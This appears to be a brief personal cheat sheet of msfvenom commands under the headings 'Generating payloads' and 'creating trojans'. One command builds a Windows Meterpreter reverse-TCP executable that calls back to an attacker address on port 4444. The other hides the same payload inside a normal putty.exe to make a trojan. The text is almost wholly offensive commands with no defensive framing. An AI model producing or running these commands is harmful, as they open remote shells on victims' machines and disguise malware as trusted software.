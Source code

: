 # Generating payloads

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe -o yolo.exe`

# creating trojans
 
 Adds the msfvenom payload to a normal putty file
 `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -x putty.exe`